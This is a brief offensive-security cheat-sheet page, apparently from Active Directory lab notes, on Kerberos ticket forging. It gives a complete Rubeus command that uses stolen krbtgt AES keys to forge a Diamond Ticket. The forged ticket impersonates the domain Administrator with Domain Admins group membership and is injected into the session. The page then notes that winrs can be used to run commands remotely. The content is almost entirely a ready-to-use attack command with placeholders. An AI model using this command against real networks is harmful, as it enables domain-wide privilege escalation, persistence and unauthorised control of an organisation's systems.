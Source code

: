 # Ticket Forging

### Diamon ticket forging

Use Rubeus and the krbtgt credentials to create a Diamond Ticket

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Rubeus.exe diamond /krbkey:<krbtgt aes256> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:<DOMAIN> /dc:<DC DOMAIN> /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

and now you can user win-rs to execute commands
